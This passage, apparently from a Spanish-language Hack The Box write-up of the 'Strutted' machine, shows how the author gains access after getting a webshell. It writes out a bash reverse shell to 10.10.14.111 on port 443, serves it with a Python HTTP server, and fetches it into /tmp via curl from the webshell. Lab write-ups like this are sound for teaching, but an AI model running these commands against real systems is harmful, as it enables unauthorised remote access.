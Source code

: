   ![](/assets/images/htb-writeup-strutted/6.png) 

  Ahora podemos intentar ganar acceso al sistema.

 Creamos un archivo index.html con un script bash que ejecuta una reverse shell hacia nuestro atacante.

  ```bash

  #!/bin/bash

  bash -i >& /dev/tcp/10.10.14.111/443 0>&1
  ```


 Luego, levantamos un servidor HTTP en nuestra máquina local para compartir el script.

  ```bash
python -m http.server 80
```
Desde la webshell hago curl a mi ip exportando ese contenido para que se guarde en tmp/reverse.

 ![](/assets/images/htb-writeup-strutted/8.png) 
